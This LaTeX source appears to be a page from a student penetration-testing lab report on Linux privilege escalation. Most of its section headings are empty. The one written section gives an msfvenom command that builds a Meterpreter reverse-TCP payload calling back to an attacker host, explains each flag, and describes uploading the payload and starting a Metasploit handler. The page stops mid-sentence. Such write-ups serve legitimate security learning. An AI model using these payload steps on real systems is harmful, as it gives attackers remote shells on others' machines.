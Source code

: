 \documentclass[a4paper]{article}
\newcommand{\abc}{\hfill \break}
\begin{document}
\subsubsection{smart enumeration}
\subsubsection{trying a kernel level exploit}
\subsubsection{checking suid binarys}
\subsubsection{checking root proccses}
\subsubsection{Trying to get privileges using Metasploit and Meterpreter}
Lastly, we tried to use Meterpreter and its prebuilt privilege escalation modules.\abc
To do this, we had to generate a payload first. While we could have just used a Netcat shell and upgraded to Meterpreter, we took this opportunity to learn something new. The payload was generated with the following command: \texttt{msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=[IP] LPORT=4444 -f elf -o payload.bin}, which is also broken down below.\cite{msfvenomdocs}
\begin{lstlisting}[language=bash]
-p linux/x86/meterpreter/reverse_tcp #setting the payload to be reverse
                                      #TCP for Linux x86
LHOST=[IP] # sets IP address of the attacking machine
LPORT=4444 #sets the local port to listen for a connection
-f elf #specifies the output format
-o payload.bin #specifies the output filename
\end{lstlisting}
The output of the command can be seen in Figure 28.
\begin{figure}[h]
	\includegraphics[scale=0.7]{images/msfgenpayload.png}
	\centering
	\caption{Generating the payload using \texttt{msfvenom}}
\end{figure}\abc
After this, the payload is uploaded to the target using scp, as demonstrated in Figure 29.
\begin{figure}[ht]
	\includegraphics[scale=0.5]{images/scp.png}
	\centering
	\caption{Uploading the payload to the target}
\end{figure}\abc
The next stop is to open the metasploit console by running \texttt{msfconsole}, setting the exploit to be \texttt{exploiut/multi/handler}
\newpage
\end{document}
